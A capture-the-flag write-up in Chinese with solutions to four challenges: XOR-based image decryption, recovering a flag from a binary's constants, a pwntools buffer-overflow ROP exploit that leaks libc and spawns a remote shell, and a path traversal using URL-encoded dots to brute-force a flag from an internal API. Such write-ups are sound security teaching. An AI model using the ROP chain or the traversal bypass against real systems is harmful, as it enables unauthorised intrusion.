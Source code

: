 # to bf or not to bf

FLAG: `FLAG{Do_not_teLL_Golem_i_use_his_photo}`

注意到它兩個圖片 encrypt 的方法都是 xor 相同的 key stream (因為 seed 一樣)，把兩張圖片 xor 之後就能看到 `flag.png` 和 `golem.png` xor 的結果，然後用肉眼從圖片中讀出 flag 即可。

```python
import cv2

ar1 = cv2.imread("flag_enc.png", cv2.IMREAD_GRAYSCALE)
ar2 = cv2.imread("golem_enc.png", cv2.IMREAD_GRAYSCALE)

h, w = ar1.shape
for i in range(h):
    for j in range(w):
        ar1[i][j] ^= ar2[i][j]


cv2.imwrite("flag.png", ar1)
```

# XAYB

FLAG: `FLAG{W0o_WAW_Y0U_50_LvcKy_watch_v__LBV49TPBEg}`

用 IDA 打開看它的邏輯，可以知道當它在 BINGO 之後會把一個字串和 0xf2 做 xor 之後輸出，而那個字串的來源是在 `main` 函數的一些常數，所以 dump 出來之後把它 xor 即可得到 flag。

```python
data = b"\xb4\xbe\xb3\xb5\x89\xa5\xc2\x9d\xad\xa5\xb3\xa5\xad\xab\xc2\xa7\xad\xc7\xc2\xad\xbe\x84\x91\xb9\x8b\xad\x85\x93\x86\x91\x9a\xad\x84\xad\xad\xbe\xb0\xa4\xc6\xcb\xa6\xa2\xb0\xb7\x95\x8f\x00\x00"
print(bytes(x ^ 0xF2 for x in data))
```

# Arch Check

FLAG: `FLAG{d1d_y0u_ju5t_s4y_w1nd0w5?}`

有個明顯的 buffer overflow 可以控制 return address，不過有 NX 所以只能用 ROP。我的方法是先 `pop rdi` 塞 GOT table 中的 `puts`，然後 return 到 `puts` 上之後再 return 回 main，這樣可以 leak 出 libc 的 address。

> Remote libc 版本是用 https://libc.rip/ 去查的

之後回到 main 之後再 overflow 一次，return 到 libc 中的 one gadget 即可 get shell。

```python
from pwn import *

context.arch = "amd64"
context.terminal = ["tmux", "splitw", "-h"]

# context.log_level = 'debug'

libc = ELF("./libc6_2.31-0ubuntu9.3_amd64.so")
elf = ELF("./arch_check_patched")  # patched using patchelf with correct libc and linker
rop = ROP(elf)
# io = process("./arch_check_patched")
io = remote("up.zoolab.org", 30001)

sh = 0x403008
pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address
chain = flat([pop_rdi, elf.got["puts"], elf.plt["puts"], elf.sym["main"]])
io.sendlineafter(b"using?\n", b"a" * 40 + chain)
io.recvline()
puts = int.from_bytes(io.recv(6), "little")
libc_base = puts - libc.sym["puts"]
print(f"{libc_base = :#x}")

gadget = libc_base + 0xE6C81
chain = flat([gadget])
io.sendlineafter(b"using?\n", b"a" * 40 + chain)
io.interactive()
```

# text2emoji

FLAG: `FLAG{3asy_p4th_tr4vers4l}`

在 `/source` 裡面可以看到目標要 request 到 internal api server 的 `/api/v1/looksLikeFlag` 才能拿 flag，但是 public server 的 `/public_api` 會檢查提供的 `text` 有沒有空白(類)字元以及 `.` 字元出現，之後把 url 變成 `http://127.0.0.1:7414/api/v1/emoji/${text}`，所以沒辦法簡單的 path traversal。

我這邊是用 `%2e` (url encoded 的 `.`)去繞過的，可以自己在 node.js 測試 `http://localhost/api/%2e%2e/peko` 實際上會發送 request 到 `http://localhost/peko`。所以利用這個方法，`text` 設為 `%2e%2e/looksLikeFlag?flag=FLAG{` 之後就可以開始爆破 flag 了。

因為它寫 flag 符合 `^FLAG{[a-z0-9_]+}$` 的 regex，所以就直接寫個腳本去炸 flag 就好了。

```python
import httpx
import asyncio
import string


async def checkFlag(client, f):
    resp = await client.post(
        "http://splitline.tw:5000/public_api",
        json={"text": "%2e%2e/looksLikeFlag?flag=" + f},
    )
    return resp.json()["looksLikeFlag"]


async def main():
    async with httpx.AsyncClient(http2=True) as client:
        prefix = "FLAG{"
        chs = "_}" + string.ascii_lowercase + string.digits
        while not prefix.endswith("}"):
            results = await asyncio.gather(
                *[checkFlag(client, prefix + c) for c in chs]
            )
            for c, r in zip(chs, results):
                if r:
                    prefix += c
            print(prefix)


asyncio.run(main())
```
